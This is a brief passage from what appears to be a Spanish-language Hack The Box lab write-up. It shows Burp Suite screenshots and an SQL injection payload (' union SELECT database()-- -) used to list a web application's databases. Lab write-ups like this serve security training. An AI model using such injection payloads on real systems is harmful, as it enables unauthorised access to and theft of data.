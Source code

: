 <p align="center">
  <img src="/assets/images/htb/validation/burp3.png" alt="4" width="2200">
</p>


<p align="center">
  <img src="/assets/images/htb/validation/burp4.png" alt="5" width="2200">
</p>

Probaremos a listar las base de datos existentes:

- **Comando:**
  ```php
  ' union SELECT database()-- -
  ```
